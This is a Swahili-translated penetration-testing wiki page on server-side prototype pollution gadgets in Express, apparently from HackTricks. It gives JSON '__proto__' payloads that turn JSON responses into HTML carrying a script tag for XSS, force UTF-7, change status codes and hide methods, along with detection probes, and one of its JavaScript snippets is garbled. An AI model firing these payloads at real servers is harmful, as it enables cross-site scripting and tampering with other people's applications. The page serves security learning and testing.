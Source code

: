 # Express Prototype Pollution Gadgets

{{#include ../../../banners/hacktricks-training.md}}

## Serve XSS responses

**Kwa maelezo zaidi** [**angalia utafiti wa asili**](https://portswigger.net/research/server-side-prototype-pollution)

### Badilisha aina ya maudhui ya JSON kuwa HTML

Katika programu ya Express inayotumia **aina ya maudhui ya majibu ya JSON** na kuakisi JSON:
```javascript
app.use(bodyParser.json({ type: "application/json" }))
app.post("/", function (req, res) {
_.merge({}, req.body)
res.send(req.body)
})
```
Katika hali hizi, XSS kawaida haiwezekani na aina ya maudhui ya JSON. Hata hivyo, kwa uchafuzi wa prototype tunaweza **kuchanganya Express kutoa jibu la HTML.** Uthibitisho huu unategemea programu kutumia **`res.send(obj)`** na kutumia parser ya mwili na aina ya maudhui ya application/json.
```json
{ "__proto__": { "_body": true, "body": "<script>evil()" } }
```
Kwa **kuharibu** mali za **`body`** na **`_body`**, inawezekana kusababisha **Express kutoa aina ya maudhui ya HTML** na kuonyesha mali ya `_body`, na kusababisha XSS iliyohifadhiwa.

### Onyesha UTF7

Inawezekana kufanya express **kuonyesha maudhui ya UTF-7 kwa**:
```json
{ "__proto__": { "content-type": "application/json; charset=utf-7" } }
```
## Mbinu za Skanning Salama

### Nafasi za JSON

PP ifuatayo itafanya sifa ndani ya JSON kuwa na nafasi ya ziada ambayo haitavunja utendaji:
```json
{ "__proto__": { "json spaces": " " } }
```
Kisha JSON iliyoakisi itaonekana kama:
```json
{"foo":  "bar"} -- Note the extra space
```
### Exposed Headers

Gadget ifuatayo ya PP itafanya seva itume nyuma kichwa cha HTTP: **`Access-Control-Expose_headers: foo`**
```json
{ "__proto__": { "exposedHeaders": ["foo"] } }
```
Inahitaji **moduli ya CORS kufungwa**

### **Njia ya OPTIONS**

Kwa payload ifuatayo, inawezekana **kuficha njia kutoka kwa jibu la OPTIONS**:
```javascript
// Original reponse: POST,GET,HEAD

// Payload:
{"__proto__":{"head":true}}

//New response: POST;GET
```
### **Hali**

Inawezekana kubadilisha **kodi ya hali iliyorudishwa** kwa kutumia payload ya PP ifuatayo:
```json
{ "__proto__": { "status": 510 } }
```
### Hitilafu

Unapoweka kwenye prototype kwa kutumia primitive kama string, inazalisha **operesheni isiyo na athari kwa sababu prototype inapaswa kuwa kitu**. Ikiwa unajaribu kuweka kitu cha prototype kwenye `Object.prototype` yenyewe, hii itasababisha **kutoa hitilafu**. Tunaweza kutumia tabia hizi mbili **kubaini ikiwa uchafuzi wa prototype umefanikiwa**:
```javascript
;({}).__proto__.__proto__ = {}(
//throws type exception
{}
).__proto__.__proto__ = "x" //no-op does not throw exception
```
### Reflected Value

Wakati programu inajumuisha kitu katika jibu lake, kuunda sifa yenye **jina lisilo la kawaida pamoja na `__proto__`** kunaweza kuwa na maana. Kwa hakika, ikiwa **sifa hiyo pekee isiyo ya kawaida inarudishwa** katika jibu, hii inaweza kuashiria udhaifu wa programu:
```json
{ "unusualName": "value", "__proto__": "test" }
```
Zaidi ya hayo, katika hali ambapo maktaba kama Lodash inatumika, kuweka mali kupitia uchafuzi wa prototype (PP) na moja kwa moja ndani ya kitu kunatoa njia nyingine ya uchunguzi. Ikiwa mali kama hiyo imeachwa kwenye jibu, inaonyesha kwamba Lodash inathibitisha uwepo wa mali hiyo katika kitu cha lengo kabla ya kuungana:
```javascript
{"__proto__":{"a":"value1"},"a":"value2","b":"value3"}
// If 'b' is the only property reflected, this indicates prototype pollution in Lodash
```
## Misc

### Ruhusu Mipira

Kuna chaguo katika Express kinachokuruhusu **kuunda vitu kutoka kwa vigezo vya mfuatano wa swali**.\
Unaweza hakika kukitumia katika **mnyororo** wa hitilafu ili kutumia **udhaifu wa uchafuzi wa prototype**.
```json
{ "__proto__": { "allowDots": true } }
```
**`?foo.bar=baz` unda kitu katika Node.**

## Marejeleo

- [https://portswigger.net/research/server-side-prototype-pollution](https://portswigger.net/research/server-side-prototype-pollution)

{{#include ../../../banners/hacktricks-training.md}}

